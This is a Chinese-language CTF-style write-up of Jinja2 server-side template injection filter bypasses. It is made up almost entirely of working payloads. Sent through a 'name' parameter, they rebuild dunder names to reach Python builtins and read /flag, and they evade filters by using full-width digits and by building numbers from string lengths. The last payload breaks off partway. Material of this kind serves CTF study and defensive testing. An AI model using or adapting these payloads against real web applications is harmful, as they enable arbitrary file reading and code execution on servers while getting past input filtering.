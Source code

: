 ```
?name=
{% set po=dict(po=1,p=2)|join%}
{% set a=(()|select|string|list)|attr(po)(24)%}
{% set re=dict(reque=1,st=1)|join%}
{% set in=(a~a~dict(init=a)|join~a~a)|join()%}
{% set gl=(a~a~dict(globals=q)|join~a~a)|join()%}
{% set ge=(a~a~dict(getitem=a)|join~a~a)%}
{% set bu=(a~a~dict(builtins=a)|join~a~a)|join()%}
{% set x=(q|attr(in)|attr(gl)|attr(ge))(bu)%}
{% set chr=x.chr%}
{% set f=chr(47)~(dict(flag=a)|join)%}
{% print(x.open(f).read())%}
```

#### payload1：全角数字绕过

```
'０','１','２','３','４','５','６','７','８','９'
```

用全角数字替换payload中的半角数字

```
?name=
{% set po=dict(po=１,p=２)|join%}
{% set a=(()|select|string|list)|attr(po)(２４)%}
{% set re=dict(reque=１,st=１)|join%}
{% set in=(a~a~dict(init=a)|join~a~a)|join()%}
{% set gl=(a~a~dict(globals=q)|join~a~a)|join()%}
{% set ge=(a~a~dict(getitem=a)|join~a~a)%}
{% set bu=(a~a~dict(builtins=a)|join~a~a)|join()%}
{% set x=(q|attr(in)|attr(gl)|attr(ge))(bu)%}
{% set chr=x.chr%}
{% set f=chr(４７)~(dict(flag=a)|join)%}
{% print(x.open(f).read())%}
```

#### payload2：构造数字

```
{% set cc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eeee=a)|join|length)%}
从而cc=2,cccc=4

再{% set coun=(cc~cccc)|int%}  -->  coun=24
快速得到一个数值
```

所以，构造

```
{% set ershisi=(cc~cccc)|int%}
{% set po=dict(po=c,p=c)|join%}
{% set a=(()|select|string|list)|attr(po)(ershisi)%}

等效于：

{% set a=(()|select|string|list)|pop(24)%}
```

payload：

```
?name=
{% set c=(dict(e=a)|join|count)%} 
{% set cc=(dict(ee=a)|join|count)%} 
{% set ccc=(dict(eee=a)|join|count)%} 
{% set cccc=(dict(eeee=a)|join|count)%}
```